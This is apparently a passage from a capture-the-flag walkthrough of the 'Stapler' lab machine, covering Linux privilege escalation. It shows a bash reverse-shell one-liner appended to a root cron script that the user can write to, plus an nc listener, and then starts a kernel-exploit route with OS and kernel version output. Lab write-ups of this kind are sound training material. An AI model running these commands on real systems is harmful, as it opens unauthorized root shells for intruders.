 ```shell
cat /etc/cron.d/logrotate

*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
```

```shell
cat /usr/local/sbin/cron-logrotate.sh

#Simon, you really need to-do something about this
```
- Looks like a cronjob is running a script over which we have write permission. The we could try to adding to this script a command to execute a reverse shell to our listener
#### Append Reverse Shell
```shell
echo "bash -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1'" | tee -a /usr/local/sbin/cron-logrotate.sh
```
#### Listener
```shell
nc -lnvp 4444
```
![01-Stapler-21](00-Assets/01-Stapler-21.png)



## Privilege Escalation - 2
Another method to elevate privileges in this machine is with a Kernel exploit.
### OS Version
```shell
cat /etc/os-release

VERSION="16.04 LTS (Xenial Xerus)"
```
### Kernel version
```shell
uname -a

Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 athlon i686 GNU/Linux
```

